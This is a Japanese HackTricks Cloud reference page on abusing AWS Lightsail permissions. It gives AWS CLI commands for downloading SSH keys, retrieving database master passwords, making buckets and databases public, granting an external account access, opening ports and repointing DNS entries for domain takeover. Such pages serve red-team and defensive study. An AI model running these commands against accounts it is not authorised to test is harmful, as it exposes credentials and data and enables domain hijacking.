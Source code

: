 # AWS - Lightsail Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Lightsail

Lightsailについての詳細は以下をチェックしてください:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsailはユーザーに属するIAMロールを使用せず、AWSが管理するアカウントに属するため、このサービスを悪用して権限昇格することはできません。しかし、このサービスではコード、APIキー、データベース情報などの**機密データ**が見つかる可能性があります。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

この権限により、インスタンスにアクセスするためのSSHキーを取得できます：
```
aws lightsail download-default-key-pair
```
**潜在的な影響：** インスタンス内の機密情報を見つける。

### `lightsail:GetInstanceAccessDetails`

この権限により、インスタンスへのアクセスに使用するSSHキーを生成できます：
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的な影響：** インスタンス内の機密情報を見つける。

### `lightsail:CreateBucketAccessKey`

この権限により、バケットにアクセスするためのキーを取得できます：
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的な影響：** バケット内の機密情報を見つける。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限により、データベースにアクセスするための認証情報を取得できます：
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的影響：** データベース内の機密情報を見つける。

### `lightsail:UpdateRelationalDatabase`

この権限により、データベースへのアクセスパスワードを変更できます：

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

データベースが公開されていない場合、この権限を使って公開することもできます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在的影響：** データベース内の機密情報を見つける。

### `lightsail:OpenInstancePublicPorts`

この権限はインターネットへのポートを開くことを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的影響：** センシティブなポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限はインターネットへのポートを開くことを許可します。この呼び出しは、指定されていない開いているポートを閉じることに注意してください。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的影響：** センシティブなポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限は、追加の認証情報なしでインスタンスにバケットへのアクセスを許可します。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在的影響：** 機密情報を含むバケットへの新たなアクセス可能性。

### `lightsail:UpdateBucket`

この権限を持つ攻撃者は、自身のAWSアカウントにバケットへの読み取りアクセス権を付与するか、バケットを公開して誰でもアクセスできるようにすることができます：
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的影響：** 機密情報を含むバケットへの新たなアクセス可能性。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセスを許可することができます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的影響：** プライベートECRから機密情報を取得

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、自分のIPアドレスにポイントするサブドメインを作成したり（サブドメインの乗っ取り）、ドメインからのメールを偽装するためにSPFレコードを作成したり、メインドメインを自分のIPアドレスに設定することもできます。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響：**ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、自分のIPアドレスにポイントするサブドメインを作成したり（サブドメインの乗っ取り）、ドメインからのメールを偽装するためにSPFレコードを作成したり、あるいはメインドメインを自分のIPアドレスに設定することができます。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的な影響：** ドメインの乗っ取り

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングテクニックを共有する。

</details>
